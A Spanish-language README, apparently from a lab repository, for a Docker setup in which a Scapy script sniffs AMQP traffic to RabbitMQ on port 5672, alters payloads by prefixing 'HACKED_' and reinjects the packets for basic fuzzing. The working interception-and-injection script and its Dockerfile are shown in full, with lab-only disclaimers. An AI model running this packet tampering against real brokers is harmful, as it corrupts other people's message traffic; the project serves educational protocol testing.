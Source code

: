 # 🧃🐇 AMQP Packet Chaos con Scapy (SOLO FINES EDUCATIVOS)

🚨 **Disclaimer:**  
Este proyecto es **SOLO** con fines educativos para entender cómo interceptar/modificar/inyectar tráfico AMQP usando **Scapy**. NO lo uses en redes ajenas. Sé decente: solo en entorno de laboratorio.

## 📂 Estructura

```bash
├── docker-compose.yml
├── el_enviador/
│   ├── Dockerfile
│   ├── Insaneador.py
├── el_espameado/
│   ├── Dockerfile
│   ├── Insaneado.py
├── el_sniffer/
│   ├── Dockerfile
│   ├── modificador.py

```

## 🚀 Qué hace
- Levanta RabbitMQ con interfaz de gestión.
- `el_enviador` envía mensajes AMQP.
- `el_espameado` los recibe.
- `el_sniffer` intercepta paquetes AMQP (**puerto 5672**) con **Scapy**.
- Modifica payload (fuzzing básico).
- Reinyecta los paquetes alterados para ver si RabbitMQ explota o filtra.

## 🧃 modificador.py
from scapy.all import *

print("🧃 Sniffer MITM activo...")

def packet_callback(packet):
    if packet.haslayer(TCP) and packet[TCP].dport == 5672:
        print(f"📦 Original: {packet.summary()}")
        if Raw in packet:
            original = packet[Raw].load
            modified = b"HACKED_" + original
            packet[Raw].load = modified
            del packet[IP].chksum
            del packet[TCP].chksum
            send(packet)
            print(f"🚨 Modificado y reinyectado: {packet.summary()}")

sniff(filter="tcp port 5672", prn=packet_callback, store=0)

## 🧃 Dockerfile el_sniffer
FROM python:3.11-slim

RUN apt-get update && apt-get install -y tcpdump iproute2 iputils-ping && pip install scapy

WORKDIR /app
COPY modificador.py .
CMD ["python", "modificador.py"]

## 🧃 Disclaimer final
**SOLO LABORATORIO. SOLO PRUEBAS. NO A LAS ILEGALIDADES EXPLOSIVAS.**  
No hackees a la tía que vende empanadas. 🫠🐇💥
